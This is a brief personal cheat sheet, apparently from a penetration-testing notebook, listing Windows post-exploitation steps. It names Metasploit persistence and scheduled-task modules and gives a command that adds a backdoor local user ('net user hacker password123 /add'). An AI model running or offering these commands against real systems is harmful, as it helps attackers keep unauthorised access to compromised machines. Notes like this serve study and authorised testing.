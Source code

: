 ```yaml
---
title: POST-EXPLOITATION
updated: 2023-09-28 09:59:43Z
created: 2023-09-28 09:57:24Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# POST-EXPLOITATION
1. Persistance scripts
**msfconsole**
*metaspolit>* run persistence -h
- exploit/windows/local/persistence
- exploit/windows/local/registry_persistence
2. Scheduled Tasks
From metasploit >
- run scheduleme
- run schtaskabuse
3. Add a user
- net user hacker password123 /add